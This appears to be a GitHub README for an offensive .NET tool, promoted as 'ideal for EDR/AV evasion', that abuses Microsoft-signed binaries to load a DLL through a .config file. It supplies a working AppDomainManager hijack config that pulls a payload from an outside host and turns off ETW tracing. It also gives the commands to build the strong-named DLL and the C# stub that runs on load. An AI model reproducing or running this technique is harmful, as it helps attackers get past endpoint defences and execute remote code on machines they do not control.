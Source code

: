 # .NetConfigLoader

List of .Net application signed by Microsoft that can be used to load a dll via a .config file. Ideal for EDR/AV evasion and execution policy bypass.

```
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="DLLNAME" publicKeyToken="deadbeef1337" culture="neutral" />
            <codeBase version="0.0.0.0" href="https://mr.un1k0d3r.world/payload"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="DLLNAME, Version=0.0.0.0, Culture=neutral, PublicKeyToken=deadbeef1337" />
      <appDomainManagerType value="CLASSNAME" />
   </runtime>
</configuration>
```

Example:

`msdeploy.exe` you need to create `msdeploy.exe.config` and add the XML data provided above.

# List of .Net Signed Microsoft Binaries 

952 files on my system. List here: [Signed Binaries](https://raw.githubusercontent.com/Mr-Un1k0d3r/.NetConfigLoader/main/signed.txt)

# Compiling the DLL

The DLL needs to have strong name

`sn.exe -k key.snk`

`csc.exe /t:library /keyfile:key.snk /out:my.dll Program.cs`

Getting the strong name information for the .config file

`PS> [System.Reflection.AssemblyName]::GetAssemblyName("C:\full\path\to\dll\my.dll").FullName`

# The DLL Structure

```
using System;
 
public sealed class CLASSNAME : AppDomainManager
{
    
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {  
         
        Program.Main(null);
          
        return;
    }
}
```

### Malware Analysis Perspectove by [@embee_research](https://twitter.com/embee_research) 
- https://embee-research.ghost.io/introduction-to-dotnet-configuration-extraction-revengerat/
